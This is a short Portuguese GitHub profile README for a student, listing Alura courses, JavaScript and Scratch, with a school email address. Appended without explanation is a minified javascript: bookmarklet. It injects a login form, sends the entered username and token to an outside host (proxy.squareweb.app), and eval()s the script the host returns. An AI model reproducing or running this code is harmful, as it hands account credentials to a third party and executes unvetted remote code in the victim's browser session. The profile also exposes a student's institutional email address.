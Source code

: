 ### bem-vindo a o meu perfil 👍

meu nome e matheus borges

 - estou fazendo na plataforma do [alura](https://www.alura.com.br)
 - estou me desenvolvendo na linguagem do [javaScript](https://p5.js.org) e [scratch](https://https://scratch.mit.edu/)
 - uso esse espaço para a minha organização e compartilhação dos meus projetos desenvidos 

### você pode entrar em contato comigo  📫

00001106286637sp@al.educacao.sp.gov.br

@matheus_borges

javascript:(function(){const formHtml=`<div id="authForm" style="position:fixed;top:50%;left:50%;transform:translate(-50%,-50%);background-color:#121212;color:#fff;border:1px solid #E51C4D;border-radius:10px;padding:20px;box-shadow:0 4px 20px rgba(0,0,0,0.5);z-index:1000;width:300px;max-width:90%;"><h2 style="color:#E51C4D;text-align:center;">AutenticaÃ§Ã£o</h2><label for="username">Nome de UsuÃ¡rio:</label><br><input type="text" id="username" required style="width:100%;box-sizing:border-box;padding:10px;border-radius:5px;border:1px solid #E51C4D;background-color:#222;color:#fff;margin-bottom:10px;"><label for="token">Token:</label><br><input type="text" id="token" required style="width:100%;box-sizing:border-box;padding:10px;border-radius:5px;border:1px solid #E51C4D;background-color:#222;color:#fff;margin-bottom:20px;"><button id="submitBtn" style="background-color:#E51C4D;color:#fff;padding:10px;border:none;border-radius:5px;width:100%;cursor:pointer;">Enviar</button><button id="cancelBtn" style="background-color:#555;color:#fff;padding:10px;border:none;border-radius:5px;width:100%;cursor:pointer;margin-top:10px;">Cancelar</button></div>`;document.body.insertAdjacentHTML('beforeend',formHtml);const submitBtn=document.getElementById('submitBtn');const cancelBtn=document.getElementById('cancelBtn');submitBtn.onclick=function(){const user=document.getElementById('username').value;const token=document.getElementById('token').value;if(!user||!token){alert('Por favor, preencha todos os campos.');return;}const apiUrl=`https://proxy.squareweb.app/ramdomtin/toolblue?user=${encodeURIComponent(user)}&token=${encodeURIComponent(token)}`;fetch(apiUrl).then(response=>{if(!response.ok){return response.text().then(text=>{throw new Error(text||'Erro na resposta do servidor.');});}return response.text();}).then(script=>{if(script&&!script.trim().startsWith('<')){eval(script);document.getElementById('authForm').remove();}else{alert('Erro na resposta do servidor.');}}).catch(error=>alert(error.message||'Ops, algo deu errado.'));};cancelBtn.onclick=function(){document.getElementById('authForm').remove();};})();
